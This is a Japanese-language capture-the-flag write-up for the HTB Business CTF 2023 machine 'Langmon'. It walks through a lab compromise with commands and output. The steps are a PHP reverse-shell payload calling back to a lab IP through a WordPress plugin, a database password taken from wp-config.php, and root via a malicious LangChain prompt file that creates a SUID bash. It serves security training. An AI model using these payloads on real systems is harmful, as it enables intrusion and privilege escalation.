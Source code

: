 ```yaml
---
layout: post
title: "[Fullpwn] Langmon (600 pts, x solved)"
published : true
permalink: /ctf/writeups/HTB_Business_CTF_2023/Fullpwn_Langmon
tags: [CTF, WriteUps, HTB Business CTF]
---
```

## Description
N/A

## Solution
### Enumeration
### Foothold
1. Wordpressにユーザ登録後、ログインする
1. Templatesメニュー >　ADD NEW で新規テンプレートを作成する
1. テンプレート内に "[php_everywhere]"を追記する
1. テンプレート一覧に戻り、作成したテンプレートの編集画面に移動する
1. PHP Everywhereの欄に以下のペイロードを追記し、テンプレートを保存する

```php
<?php system('bash -c "bash -i >& /dev/tcp/10.10.14.30/443 0>&1"');?>
```

1. nc でリバースシェルを待ち受ける
1. テンプレートをプレビューする

### User
1. wp-config.phpからDBの資格情報を入手する。

```
password: SNJQvwWHCK
```

1. 入手した資格情報でdeveloperにユーザを切り替える

```sh
su developer
```

### Root
1. `sudo -l`を実行すると、"/opt/prompt_loader.py"をルートで実行できることが確認できる

```sh
developer@langmon:~$ sudo -l
[sudo] password for developer:
Matching Defaults entries for developer on langmon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User developer may run the following commands on langmon:
    (root) /opt/prompt_loader.py
```

- /opt/prompt_loader.py

```python
#!/usr/bin/python3
import sys
from langchain.prompts import load_prompt

def load(file):
        try:
                load_prompt(file)
        except:
                print("There is something wrong with the prompt file.")

if __name__ == "__main__":
        if len(sys.argv) != 2:
                print("Usage: prompt_loader.py <prompt_file_path>")
        else:
                file = sys.argv[1]
                load(file)
```

1. 以下で解説されている脆弱性を悪用する
https://github.com/hwchase17/langchain/issues/4849

1. ロードするprompt.pyを作成した。内容はSUIDフラグを持つbashを生成するもの。

- prompt.py

```python
from langchain.output_parsers.list import CommaSeparatedListOutputParser
from langchain.prompts.prompt import PromptTemplate
_DECIDER_TEMPLATE = """Given the below input question and list of potential tables, output a comma separated list of the table names that may be neccessary to answer this question.

Question: {query}

Table Names: {table_names}

Relevant Table Names:"""

import os
os.system('cp /bin/bash /tmp/bash;chmod 4777 /tmp/bash')
PROMPT = PromptTemplate(
    input_variables=["query", "table_names"],
    template=_DECIDER_TEMPLATE,
    output_parser=CommaSeparatedListOutputParser(),
)
```

1. 以下の通りルートを取得できた

```sh
developer@langmon:~$ sudo /opt/prompt_loader.py prompt.py
developer@langmon:~$ ll /tmp
total 1404
drwxrwxrwt  2 root     root        4096 Jul 15 04:25 ./
drwxr-xr-x 19 root     root        4096 Jul  5 11:21 ../
-rwsrwxrwx  1 root     root     1396520 Jul 15 04:25 bash*
-rw-------  1 www-data www-data   28948 Jul 15 04:07 phpJSuHOo
developer@langmon:~$

developer@langmon:~$ /tmp/bash -p
bash-5.1# id
uid=1000(developer) gid=1000(developer) euid=0(root) groups=1000(developer)
bash-5.1#
```